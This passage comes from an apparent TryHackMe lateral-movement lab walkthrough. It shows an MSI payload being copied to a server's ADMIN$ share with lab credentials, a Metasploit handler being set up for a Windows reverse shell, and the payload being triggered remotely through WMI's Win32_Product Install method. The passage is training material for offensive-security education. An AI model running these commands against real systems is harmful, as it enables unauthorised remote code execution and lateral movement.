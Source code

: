 We then copy the payload using SMB or any other method available:

- **AttackBox**        

```shell
user@AttackBox$ smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
 putting file myinstaller.msi as \myinstaller.msi (0.0 kb/s) (average 0.0 kb/s)
        
```

Since we copied our payload to the ADMIN$ share, it will be available at C:\Windows\ on the server.

We start a handler to receive the reverse shell from Metasploit:

- **AttackBox**        

```shell
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4445
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.10.16:4445
        
```

Let's start a WMI session against THMIIS from a Powershell console:

- **THMJMP2: Powershell**        

```powershell
PS C:\> $username = 't1_corine.waters';
PS C:\> $password = 'Korine.1994';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
PS C:\> $Opt = New-CimSessionOption -Protocol DCOM
PS C:\> $Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
        
```

We then invoke the Install method from the Win32_Product class to trigger the payload:

- **THMJMP2: Powershell**        

```powershell
PS C:\> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
        
```

As a result, you should receive a connection in your AttackBox from where you can access a flag on t1_corine.waters desktop.

# Use of Alternate Authentication Material                            
